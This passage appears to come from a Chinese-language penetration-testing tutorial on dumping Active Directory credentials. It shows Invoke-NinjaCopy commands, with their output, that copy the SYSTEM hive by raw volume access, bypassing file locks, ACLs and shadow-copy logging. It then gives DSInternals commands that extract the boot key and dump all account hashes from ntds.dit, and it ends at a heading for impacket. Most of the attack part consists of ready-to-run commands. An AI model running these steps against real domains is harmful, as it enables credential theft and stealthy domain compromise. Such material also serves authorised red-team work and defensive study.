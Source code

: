 https://clymb3r.wordpress.com/2013/06/13/using-powershell-to-copy-ntds-dit-registry-hives-bypass-sacls-dacls-file-locks/

调用Volume Shadow Copy服务会产生日志文件，`Invoke-NinjaCopy.ps1`没有通过Windows API去读取文件(这种方式会有ACL权限、文件锁检查等)，而是直接获取对存储卷的访问；再去解析NTFS文件格式，定位文件位置后读取raw bytes。

```
//high integrity
.\Invoke-NinjaCopy.ps1 -path c:\windows\system32\config\system -localdestination c:\test\system -verbose -computername workstationvm
VERBOSE: PowerShell ProcessID: 3196
VERBOSE: Copied 5242880 bytes. 6553600 Bytes remaining
VERBOSE: Copied 10485760 bytes. 1310720 Bytes remaining
VERBOSE: Copied 11796480 bytes. 0 Bytes remaining
```



### 二. 提取出账户Hash

##### **1. Powershell module: DSInternals**

```
Install-Module DSInternals
Import-Module DSInternals
```

```
// 这种方法似乎只支持注册表导出的SYSTEM, C:\Windows\System32\config\SYSTEM不支持
Get-BootKey -SystemHiveFilePath .\extract\SYSTEM_reg
```

```
Get-ADDBAccount -BootKey $bootkey -DatabasePath '.\extract\ntds.dit' -All | Out-File .\extract\result.txt
```

如果执行`Get-ADDBAccount`出现以下错误：

![image-20201116200236191](/assets/img/image-20201116200236191.png)

执行以下命令：

```
esentutl /p c:\extract\ntds.dit /!10240 /8 /o
```



##### **2. Python: impacket**
